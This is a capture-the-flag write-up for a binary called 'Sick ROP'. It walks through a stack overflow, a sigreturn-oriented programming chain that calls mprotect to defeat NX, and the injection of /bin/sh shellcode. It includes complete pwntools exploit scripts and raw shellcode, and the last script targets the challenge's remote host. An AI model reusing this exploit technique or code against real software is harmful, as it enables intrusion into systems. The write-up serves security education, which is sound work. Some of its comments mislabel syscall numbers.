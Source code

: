 # Sick ROP 

## 1. Information gathering
Bin doesn't seem to be complicated, it only has its _start and vuln() function with read and write helpers.

![objdump](pix/objdump.PNG)

Also NX there is enabled..  
![checksec](pix/checksec.PNG)  
So we cannot execute own shellcode from stack.  
  

By running binary with GDB we can see that there is overflow which will cause SEG fault  
![segfault](pix/seg_fault.PNG)  

With pattern create 100/offset we see that overflow occurs after 40b and something to notice: RAX holds exactly our 100 + \n length (0x65).  
Therefore we are able to control RSB (stack pointer) and RAX (return value) so may be able to do some rop chaining here.  

## 2. Testing theory 
Using pwntools with python, we can write code to test if we are able to control RIP by setting offset + vuln function address + new RIP:  
```
from pwn import *
p = process(['gdb-peda', 'sick_rop'])

offset = b'A'*40
vuln_addr = p64(0x40102e)
p.interactive()
p.sendline(offset + vuln_addr + b"BBBB") # 40 A offset, vuln address + 0x42424242 as new rip
p.recv(timeout=1)
p.sendline(b"AAAAA")
p.recv(timeout=1)
p.interactive()
```

![rip](pix/rip_controlled.PNG)  
Here we can see that totally can control RIP with this.  
But to be able to execute shellcode with rop chaining, we need 2 main gadgets: sigreturn syscall and syscall return.  

![gadgets](pix/gadgets.PNG)  
Here we see syscall; ret; address 0x401014  
As we seen before, we were able to control RAX value which is needed to call sigreturn syscall:
```
sigreturn syscall gadget: rax=0xf; syscall
```  
By changing our code to:

```
from pwn import *
p = process(['gdb-peda', 'sick_rop'])

offset = b'A'*40
vuln_addr = p64(0x40102e)
p.interactive()
p.sendline(offset + vuln_addr + b"BBBB") # 40 A offset, vuln address + 0x42424242 as new rip
p.recv(timeout=1)
p.sendline(b"A"*14)
p.recv(timeout=1)
p.interactive()
```  
We can see that our RAX value is now indeed 0xf (mtproctect syscall).


## 3. Building ROP chain

Next for building SigreturnFrame, we need couple more things: base address of bin and vuln() functions PTR, base address can be found with GDB: vmmap  
![baseaddr](pix/base_addr.PNG)  
and vuln functions pointer with gdb find VULN_ADDR  
![vulnptr](pix/vuln_ptr.PNG)  

Now we can build our mtprotect call:  
```
from pwn import *
p = process(['gdb-peda', './sick_rop'])
context.arch = "amd64"

offset = b'A'*40
vuln_addr = p64(0x40102e)
vuln_ptr_addr = 0x4010d8
base_addr = 0x0000000000400000
syscall = p64(0x401014)

sigFrame = SigreturnFrame()
sigFrame.rax = 0xa # mtprotect syscall == 10
sigFrame.rdi = base_addr # Programs base address 0x0000000000400000
sigFrame.rsi = 0x4000 # Length
sigFrame.rdx = 7 # permissions R-W-X
sigFrame.rsp = vuln_ptr_addr #pointer addr to vuln function
sigFrame.rip = 0x401014 # syscall addr

p.interactive()
p.sendline(offset + vuln_addr + syscall + bytes(sigFrame)) # 40 A offset, vuln address + 0x42424242 as new rip
p.recv(timeout=1)
p.sendline(b"A"*14)
p.recv(timeout=1)
p.interactive()
```  
![run](pix/rwxp.PNG)  
Here we can now see that NX is bypassed! 
We also passed some A chars which we can see has ptr as: 0x4010b8 where our shellcode will be placed!  
Next we need shellcode, I will use shellstroms 23B shellcode for this, next we just build this all up:  
```
from pwn import *
#p = process(['gdb-peda','./sick_rop'])
p = remote("159.65.27.79",32030)
context.arch = "amd64"

# shellcode, length 23B
shellcode = b"\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05"

offset = b'A'*40
vuln_addr = p64(0x40102e)
vuln_ptr_addr = 0x4010d8
base_addr = 0x0000000000400000
syscall = p64(0x401014)

sigFrame = SigreturnFrame()
sigFrame.rax = 0xa # mtprotect syscall == 10
sigFrame.rdi = base_addr # Programs base address 0x0000000000400000
sigFrame.rsi = 0x4000 # Length
sigFrame.rdx = 7 # permissions R-W-X
sigFrame.rsp = vuln_ptr_addr #pointer addr to vuln function
sigFrame.rip = 0x401014 # syscall addr

p.sendline(offset + vuln_addr + syscall + bytes(sigFrame)) # 40 A offset, vuln address + 0x42424242 as new rip
p.recv(timeout=1)
p.sendline(b"A"*14)
p.recv(timeout=1)

p.sendline(shellcode + b'\x90' * (40-len(shellcode)) + p64(0x4010b8))
p.recv()
p.interactive()
```

![flag](pix/flag.PNG)  
And there we have it!


Good links:  
https://failingsilently.wordpress.com/2017/12/17/rop-exploit-mprotect-and-shellcode/  
https://docs.pwntools.com/en/stable/rop/srop.html


